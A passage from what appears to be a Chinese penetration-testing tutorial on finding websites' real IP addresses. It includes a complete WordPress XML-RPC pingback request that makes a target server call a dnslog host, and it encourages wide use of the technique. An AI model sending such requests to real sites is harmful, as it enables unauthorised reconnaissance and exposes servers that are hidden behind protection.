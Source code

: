 [![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p3.ssl.qhimg.com/t0190b817000663403d.png)

针对整个互联网的搜索 IP 结果进一步匹配，比如通过 端口、地理位置、banner 特征、反查邮箱、联系方式等等信息，继续精确结果：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p5.ssl.qhimg.com/t0166e224a488759b81.png)

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t0109efd8f03aec82c8.png)

### <a class="reference-link" name="%E5%8D%81%E3%80%81%E9%80%9A%E8%BF%87%20XML-RPC%20PINGBACK%20%E9%80%9A%E4%BF%A1"></a>十、通过 XML-RPC PINGBACK 通信
- XML-RPC 是支持 WordPress 与其他系统之间通信的规范，它通过使用 HTTP 作为传输机制和 XML 作为编码机制来标准化这些通信过程。
- 在 WordPress 的早期版本中，默认情况下已关闭 XML-RPC，但是从3.5版本开始，默认情况下开启。
- XML-RPC 支持 trackback 和 pingback。
- 虽然 WordPress 启用了 REST API 来代替 XML-RPC ，不过 XML-RPX 不会过时的，放心大胆的使用就好，虽然 XML-RPC 这个技术很老了，但依然可以通杀很多网站。
配置好 dnslog，POST 请求 XML-RPC：

```
POST /xmlrpc.php HTTP/1.1
Host: domain.com
Cache-Control: max-age=0
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/70.0.3538.110 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 323

&lt;?xml version="1.0" encoding="UTF-8"?&gt;
&lt;methodCall&gt;
&lt;methodName&gt;pingback.ping&lt;/methodName&gt;
&lt;params&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;http://2vbis4.dnslog.cn&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;param&gt;
&lt;value&gt;&lt;string&gt;https://domain.com/&lt;/string&gt;&lt;/value&gt;
&lt;/param&gt;
&lt;/params&gt;
&lt;/methodCall&gt;
```

响应：

[![](data:image/png;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAAAXNSR0IArs4c6QAAAARnQU1BAACxjwv8YQUAAAAJcEhZcwAADsQAAA7EAZUrDhsAAAANSURBVBhXYzh8+PB/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://p1.ssl.qhimg.com/t016f265fefeacdd2e5.png)
